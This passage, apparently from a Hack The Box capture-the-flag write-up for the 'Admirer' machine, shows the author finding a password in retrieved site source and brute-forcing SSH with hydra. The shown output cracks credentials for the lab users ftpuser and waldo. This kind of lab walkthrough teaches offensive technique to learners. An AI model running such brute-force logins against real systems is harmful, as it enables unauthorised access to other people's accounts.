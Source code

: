 I wasn't even sure that this was going to work, but to my surprise it retrieved the file and added it to my database. I now had a way to read through the source code of the production website as opposed to the backups I downloaded earlier.

![](../../.gitbook/assets/9-yet-another-password.png)

Much to my surprise...there was yet again another password contained in this file. Before trying to download any more files I decided to try to brute force SSH login again with this new password.

```text
zweilos@kali:~/htb/admirer$ hydra -L users -P passwords 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 22:49:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:11/p:7), ~5 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 22:50:00
```

I had finally found a usable password for `waldo`!  I hoped that it wouldn't just kick me out like it had with `ftpuser`. 

### User.txt
